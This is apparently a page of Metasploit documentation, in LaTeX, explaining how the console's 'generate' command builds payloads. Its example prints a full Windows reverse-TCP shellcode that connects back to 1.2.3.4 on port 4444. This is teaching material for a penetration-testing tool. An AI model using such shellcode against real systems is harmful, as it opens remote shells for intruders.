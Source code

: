 \documentclass{report}
\begin{document}
\par
The console interface supports generating different forms of a payload. To
generate payloads, first select a payload using the \texttt{use} command.

\begin{verbatim}
msf > use windows/shell_reverse_tcp
msf payload(shell_reverse_tcp) > generate -h
Usage: generate [options]

Generates a payload.

OPTIONS:

    -b <opt>  The list of characters to avoid: '\x00\xff'
    -e <opt>  The name of the encoder module to use.
    -h        Help banner.
    -o <opt>  A comma separated list of options in VAR=VAL format.
    -s <opt>  NOP sled length.
    -t <opt>  The output type: ruby, perl, c, or raw.

msf payload(shell_reverse_tcp) >
\end{verbatim}

\par
Using the options supported by the \texttt{generate} command, different formats
of a payload can be generated. Some payloads will require options which can be
specified through the \texttt{-o} parameter. Additionally, a format to convey
the generated payload can be specified through the \texttt{-t} parameter. To
save the resulting data to a local file, pass the \texttt{-f} parameter followed
by the output file name.

\begin{verbatim}
msf payload(shell_reverse_tcp) > set LHOST 1.2.3.4
LHOST => 1.2.3.4
msf payload(shell_reverse_tcp) > generate -t ruby
# windows/shell_reverse_tcp - 287 bytes
# http://www.metasploit.com
# EXITFUNC=seh, LPORT=4444, LHOST=1.2.3.4
"\xfc\x6a\xeb\x4d\xe8\xf9\xff\xff\xff\x60\x8b\x6c\x24\x24" +
"\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b\x4f\x18\x8b\x5f" +
"\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99\xac\x84" +
"\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x28" +
"\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c" +
"\x01\xeb\x03\x2c\x8b\x89\x6c\x24\x1c\x61\xc3\x31\xdb\x64" +
"\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40\x08\x5e" +
"\x68\x8e\x4e\x0e\xec\x50\xff\xd6\x66\x53\x66\x68\x33\x32" +
"\x68\x77\x73\x32\x5f\x54\xff\xd0\x68\xcb\xed\xfc\x3b\x50" +
"\xff\xd6\x5f\x89\xe5\x66\x81\xed\x08\x02\x55\x6a\x02\xff" +
"\xd0\x68\xd9\x09\xf5\xad\x57\xff\xd6\x53\x53\x53\x53\x43" +
"\x53\x43\x53\xff\xd0\x68\x01\x02\x03\x04\x66\x68\x11\x5c" +
"\x66\x53\x89\xe1\x95\x68\xec\xf9\xaa\x60\x57\xff\xd6\x6a" +
"\x10\x51\x55\xff\xd0\x66\x6a\x64\x66\x68\x63\x6d\x6a\x50" +
"\x59\x29\xcc\x89\xe7\x6a\x44\x89\xe2\x31\xc0\xf3\xaa\x95" +
"\x89\xfd\xfe\x42\x2d\xfe\x42\x2c\x8d\x7a\x38\xab\xab\xab" +
"\x68\x72\xfe\xb3\x16\xff\x75\x28\xff\xd6\x5b\x57\x52\x51" +
"\x51\x51\x6a\x01\x51\x51\x55\x51\xff\xd0\x68\xad\xd9\x05" +
"\xce\x53\xff\xd6\x6a\xff\xff\x37\xff\xd0\x68\xe7\x79\xc6" +
"\x79\xff\x75\x04\xff\xd6\xff\x77\xfc\xff\xd0\x68\xf0\x8a" +
"\x04\x5f\x53\xff\xd6\xff\xd0"
msf payload(shell_reverse_tcp) >
\end{verbatim}
\end{document}
